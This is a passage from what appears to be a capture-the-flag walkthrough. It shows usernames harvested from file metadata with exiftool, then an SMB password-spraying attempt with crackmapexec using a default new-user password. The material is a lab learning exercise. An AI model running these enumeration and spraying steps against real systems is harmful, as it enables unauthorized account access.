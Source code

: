 And we may as well capture all of the usernames on these files like we did earlier. I use exiftool with some grepping, cutting, and sorting to export just the usernames to a file named users.txt.

`exiftool * | grep Creator | cut -d ":" -f 2 | cut -d " " -f 2 | sort -u > users.txt`

![](images2/intelligence6.png)

Now we can try and spray the default new user password against all of the usernames we collected using crackmapexec, and see if it works on any of the accounts.

`crackmapexec smb intelligence -u users.txt -p pass.txt | grep "[+]"`

![](images2/intelligence7.png)
